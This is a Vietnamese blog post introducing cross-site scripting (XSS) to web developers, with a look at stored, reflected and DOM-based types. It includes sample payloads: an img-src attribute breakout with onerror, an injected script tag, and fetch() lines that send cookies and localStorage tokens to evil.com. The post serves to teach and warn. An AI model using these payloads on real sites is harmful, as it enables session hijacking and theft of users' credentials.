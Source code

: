 ```yaml
---
title: "Một vài điều cần biết về XSS!!"
publishedAt: "2025-03-30"
image: "/images/blogs/about-xss/thumbnails.png"
summary: "Trong bài blog này, mình sẽ giải thích ngắn gọn các khái niệm liên quan và kết hợp với demo để các bạn dễ hình dung."
tags: ["Security"]
readTime: "8 min read"
author: "Larry Vu"
---
```


## XSS là gì?

Cross-Site Scripting (XSS) là một lỗ hổng bảo mật phổ biến trong các ứng dụng web, cho phép kẻ tấn công chèn mã độc (thường là JavaScript) vào trang web mà người dùng khác truy cập. Điều này có thể dẫn đến việc đánh cắp thông tin nhạy cảm, chiếm quyền điều khiển phiên làm việc, hoặc thực hiện các hành động thay mặt nạn nhân.

Một ví dụ đơn giản và dễ hiểu: 

Giả sử bạn có một trang web cho phép người dùng thay ảnh đại diện của mình bằng cách nhập URL của ảnh để bạn không cần lưu trữ và xử lý ảnh trên server (hoặc một trường hợp khác tương tự).
Người dùng có thể nhập URL của ảnh từ một trang web khác, và bạn sẽ render nó như sau:

```html
<img src="{userInput}" />
```


Kẻ tấn công vô tình biết được điều này và đã lừa người dùng thay avatar của mình bằng một URL độc hại như sau:

```html
https://example.com/evil.png" onerror="alert('XSS!')

```

`https://example.com/evil.png` là một ảnh không tồn tại, vì vậy trình duyệt sẽ không thể tải được ảnh này và sẽ gọi hàm `onerror` để xử lý lỗi. Trong trường hợp này, hàm `onerror` sẽ thực thi mã JavaScript mà kẻ tấn công đã chèn vào, dẫn đến việc hiển thị thông báo "XSS!".

Thay vì hiển thị thông báo, kẻ tấn công có thể thực hiện các hành động khác như gửi cookie của người dùng đến máy chủ của mình hoặc thực hiện các hành động khác trên trang web mà người dùng đang truy cập.

Bạn nào mà còn lưu API key, token hay cookie trong localStorage hoặc sessionStorage thì không khác gì dâng token cho kẻ tấn công đâu nhé. Ví dụ thay vì `alert('XSS!')`, nếu là:

```html
fetch('https://evil.com/steal-cookie?cookie=' + document.cookie)
```

hay: 


```html
fetch('https://evil.com/steal-token?token=' + localStorage.getItem('token'))
```

thì kẻ tấn công đã có thể lấy được cookie hay token của người dùng rồi.

---

## Các loại XSS phổ biến

1. **Stored XSS (XSS lưu trữ)**  
   Mã độc được lưu trữ vĩnh viễn trên máy chủ (ví dụ: trong cơ sở dữ liệu) và được thực thi khi người dùng truy cập trang bị ảnh hưởng.

2. **Reflected XSS (XSS phản chiếu)**  
   Mã độc được phản chiếu từ máy chủ, thường thông qua URL hoặc input form, và được thực thi trong trình duyệt của nạn nhân.

3. **DOM-based XSS**  
   Lỗ hổng tồn tại trong mã phía client, nơi trình duyệt thực thi mã độc do việc thao tác không an toàn với DOM.

---

## XSS có thể được thực hiện qua những cách nào?

### Ví dụ kịch bản tấn công XSS thông qua src của thẻ img

Ứng dụng web của bạn cho phép người dùng nhập URL ảnh để hiển thị (ví dụ: ảnh đại diện, ảnh sản phẩm), và bạn render nó như sau:

```html
<img src="{userInput}" />

```

Nếu không validate kĩ userInput, kẻ tấn công có thể gửi:
```html
"><script>alert('XSS')</script>

```

Khi đó, thẻ `<img>` sẽ không được render thành:
```html
<img src=""><script>alert('XSS')</script> />

```
Và mã JavaScript sẽ được thực thi, dẫn đến việc hiển thị thông báo "XSS".